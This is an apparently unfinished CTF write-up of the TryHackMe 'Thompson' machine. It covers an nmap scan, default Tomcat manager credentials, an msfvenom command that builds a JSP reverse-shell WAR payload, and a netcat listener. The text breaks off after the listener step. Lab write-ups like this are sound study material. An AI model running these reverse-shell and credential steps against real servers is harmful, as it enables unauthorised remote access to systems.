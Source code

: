 <tittle>Thompson on TryHackMe - Walkthrough </tittle>

Thompson is simple boot2root machine writen by Guatemala. 
First we must deploy our machine to receive our target IP.

Let's see what we are dealing with!  Firtly I run nmap scan:

<code>nmap -A -T5 -p- <<target IP>></code>

<img width="737" alt="2024-04-26 09_52_13-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/61aa3f00-44fd-43a7-84e7-3ca623a38b9c">

<code>-A flag Enables OS detection, version detection, script scanning, and traceroute,
-T5 for insane speed scan (we dont have to be worry about to be undetected, it just a CTF)
-p- for scan all ports</code>

<img width="541" alt="2024-04-26 09_57_01-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/247e4e18-78e8-43a1-9f35-55a2f1516eb2">
<br>According to our scan We have three ports open. SSH on 22, Apache 8009, and <b>Apache Tomcat</b>b on port 8080. SSH is usually not the first thing we reach for, but port 8080 seems promising... In that case let check in our browser whats on:

<img width="878" alt="2024-04-26 10_02_41-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/6eaf8f3d-aa5a-43d7-ae12-04d0199c40e2">
Everytime when I have some webpage I always check page source for hidden secrects and credential. CTF creator often give us something, but unfortunately not in this case. So lets click Manager App and try login with some default credentials: admin admin. Didn't work. But when we click <code>Cancel</code> were redirect to:

<img width="907" alt="2024-04-26 10_07_03-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/09f464e3-e779-4bdd-8394-715c94318059">
Yay! Weve got credentials!
<code>username:tomcat</code>
<code>password:s3cret</code>code>

It works, Were in!!! So far so good...
After a quick glance at the page we see that we can potentially upload WAR file to the server... but what is that? Uncle Google says:<code>"In software engineering, a WAR file (Web Application Resource or Web application ARchive) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web ..."</code> Ok, so We need java reverse shell.

The simpliest way is using Msfvenom for creating our malicious war file:

<code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=<<our IP>> LPORT=4444 -f war -o shell.war</code>

After generating a payload, firts we start Netcat listener on port 4444:
<code>nc -nlvp 4444</code>
